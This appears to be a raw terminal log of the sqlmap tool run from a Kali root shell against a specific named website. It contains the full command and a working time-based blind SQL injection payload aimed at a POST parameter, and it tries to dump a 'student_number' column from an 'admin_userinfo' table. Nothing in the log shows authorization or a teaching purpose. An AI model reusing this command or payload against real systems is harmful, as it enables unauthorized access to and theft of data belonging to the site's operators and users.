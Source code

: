 [*] starting at 18:57:27

[18:57:27] [INFO] loading tamper module 'between'
[18:57:27] [INFO] resuming back-end DBMS 'mysql' 
[18:57:27] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:57:27] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:57:27] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[18:57:27] [INFO] fetching entries of column(s) 'student_number' for table 'admin_userinfo' in database 'qaisare_com'
[18:57:27] [INFO] fetching number of column(s) 'student_number' entries for table 'admin_userinfo' in database 'qaisare_com'
[18:57:27] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[18:57:35] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[18:57:36] [WARNING] unable to retrieve the number of column(s) 'student_number' entries for table 'admin_userinfo' in database 'qaisare_com'
[18:57:36] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.qaisare.com'

[*] shutting down at 18:57:36

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT"  --no-cast --tamper between.py -D qaisare_com -T admin_userinfo -C student_number --dump --time-sec 20
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:58:03

[18:58:03] [INFO] loading tamper module 'between'
[18:58:04] [INFO] resuming back-end DBMS 'mysql' 
[18:58:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(20000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[18:58:04] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[18:58:04] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)